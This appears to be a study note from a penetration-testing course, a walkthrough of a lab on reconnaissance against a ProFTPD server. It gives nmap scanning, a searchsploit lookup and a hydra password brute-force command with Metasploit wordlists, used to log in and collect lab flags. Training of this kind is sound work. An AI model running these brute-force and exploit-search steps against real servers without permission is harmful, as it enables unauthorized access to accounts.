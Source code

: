 # 🔬FTP

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.209.45.3`
>  - **Brute-force** of [ProFTP](http://www.proftpd.org/) server
>  - **Enumeration, nmap brute-force and flags** have been already covered in this [FTP Enum lab](../../../assessment-methodologies/3-enumeration/ftp-enum.md)

```bash
nmap -sV 192.209.45.3
```

```
21/tcp open  ftp  ProFTPD 1.3.5a
```

- Check anonymous login and inherent vulnerabilities

```bash
ftp 192.209.45.3
# anonymous login failed
```

```
ls -al /usr/share/nmap/scripts | grep ftp-*
```

![](assets/image-20230319162253807.png)

```bash
searchsploit ProFTPD
# check exploits for the specific version
```

### Brute-Force

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.209.45.3 -t 4 ftp
```

![](assets/image-20230319162826368.png)

- Try to connect with FTP and found credentials and retrieve every user's flag:

```bash
ftp 192.209.45.3
```

------

